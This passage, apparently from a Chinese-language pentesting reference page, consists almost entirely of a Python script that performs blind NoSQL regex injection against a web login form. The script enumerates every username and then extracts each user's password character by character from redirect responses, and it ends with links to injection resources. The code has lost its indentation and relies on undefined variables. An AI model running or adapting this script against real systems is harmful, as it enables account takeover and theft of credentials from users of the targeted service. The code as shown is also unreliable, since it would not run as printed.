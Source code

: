 ```
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
print("Extracting password of "+username)
params = {"username":username, "password[$regex]":"", "login": "login"}
password = "^"
while True:
for c in possible_chars:
params["password[$regex]"] = password + c + ".*"
pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
password += c
break
if c == possible_chars[-1]:
print("Found password "+password[1:].replace("\\", "")+" for username "+username)
return password[1:].replace("\\", "")

def get_usernames():
usernames = []
params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
for c in possible_chars:
username = "^" + c
params["username[$regex]"] = username + ".*"
pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
print("Found username starting with "+c)
while True:
for c2 in possible_chars:
params["username[$regex]"] = username + c2 + ".*"
if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
username += c2
print(username)
break

if c2 == possible_chars[-1]:
print("Found username: "+username[1:])
usernames.append(username[1:])
break
return usernames


for u in get_usernames():
get_password(u)
```
## 参考资料

* [https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L\_2uGJGU7AVNRcqRvEi%2Fuploads%2Fgit-blob-3b49b5d5a9e16cb1ec0d50cb1e62cb60f3f9155a%2FEN-NoSQL-No-injection-Ron-Shulman-Peleg-Bronshtein-1.pdf?alt=media](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L\_2uGJGU7AVNRcqRvEi%2Fuploads%2Fgit-blob-3b49b5d5a9e16cb1ec0d50cb1e62cb60f3f9155a%2FEN-NoSQL-No-injection-Ron-Shulman-Peleg-Bronshtein-1.pdf?alt=media)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
